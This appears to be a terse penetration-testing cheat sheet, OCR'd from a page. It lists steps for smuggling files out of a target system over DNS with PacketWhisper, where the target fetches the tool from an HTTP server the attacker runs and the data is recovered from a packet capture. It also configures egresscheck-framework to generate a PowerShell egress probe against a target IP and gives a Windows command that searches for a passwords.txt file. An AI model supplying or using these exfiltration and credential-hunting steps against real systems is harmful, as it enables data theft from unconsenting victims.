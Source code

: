 #### Packet Sniffer

1. Run Wireshark
2. Configue DNS on target to our system.
3. Type `python –m SimpleHTTPServer 8080` or `python3 -m http.server 8080`on our terminal.
4. Download master.zip on target system.
5. Copy the file need to send to the extracted folder in target syetem.
6. Run `python packetWhisper.py`.
7. Cloakify.
7. Run packet capture in our system and save capture as .pcap file.
8. Run `python packetWhisper.py` in our sytem and decloakify .pcap file.

#### Egress

`git clone https://github.com/stufus/egresscheck-framework.git`
`cd egresscheck-framework/`
`./ecf.py`

`set PORTS 8500-9500`
`set TARGETIP 172.16.91.16`
`set SOURCEIP 172.16.91.100`
`set PROTOCOL tcp`
`generate powershell-cmd`


`dir /s /b passwords.txt` to search files in windows